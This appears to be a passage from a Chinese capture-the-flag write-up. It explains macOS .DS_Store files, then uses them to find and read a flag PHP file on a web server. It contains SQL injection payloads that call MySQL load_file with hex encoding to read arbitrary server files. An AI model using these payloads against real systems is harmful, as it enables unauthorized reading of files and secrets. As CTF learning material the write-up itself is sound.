 > `.DS_Store` 是一个隐藏文件，它通常出现在 Mac OS 系统中，用于存储某个目录的自定义显示属性，例如图标位置、背景色等。在打开一个包含 `.DS_Store` 文件的文件夹时，系统会根据该文件中保存的自定义属性来展示文件夹的显示效果。
>
> `.DS_Store` 文件是由 Finder 应用程序自动生成和维护的，它存储了目录的各种视觉和结构属性，如文件的位置、大小、图标等。该文件默认是隐藏的，因此在正常使用的情况下，用户无法看到它。但在一些情况下，例如将一个 Mac 上的文件夹复制到其他系统或者网络共享中时，`.DS_Store` 文件可能会成为一个问题。
>
> 如果不希望 `.DS_Store` 文件在复制或共享时被包含在内，可以通过以下方法来禁用它的生成：
>
> 1. 在命令行中使用如下命令：
>
>    ```
>    defaults write com.apple.desktopservices DSDontWriteNetworkStores true
>    ```
>    
>    该命令会禁用在网络共享中生成 `.DS_Store` 文件。
>    
> 2. 在命令行中使用如下命令：
>
>    ```
>    defaults write com.apple.finder CreateDesktop false
>    ```
>    
>    该命令会禁用在本地目录中生成 `.DS_Store` 文件。
>    
>
> 需要注意的是，禁用 `.DS_Store` 文件可能会影响到 Finder 的显示效果，因此建议在操作前备份好数据，并在需要时重新启用该文件。

`.DS_Store`文件存储了`html`目录的一些属性。

这里注意的是，虽然删除了该目录的该文件，但是 `/tmp/html`目录下没有删除，

我们获取一下该文件：

```
',content=hex(load_file("/tmp/html/.DS_Store")),/*
```

这里使用hex编码，防止不可见字符，然后转为字符串：



![image-20230514135523267](https://s2.loli.net/2023/05/14/X2Zbgrxp83BFPYq.png)



发现php文件，读取：

```
',content=hex(load_file("/tmp/html/flag_8946e1ff1ee3e40f.php")),/*
```

是个假的，读`/var/www/html`目录下的：

```
',content=hex(load_file("/var/www/html/flag_8946e1ff1ee3e40f.php")),/*
```

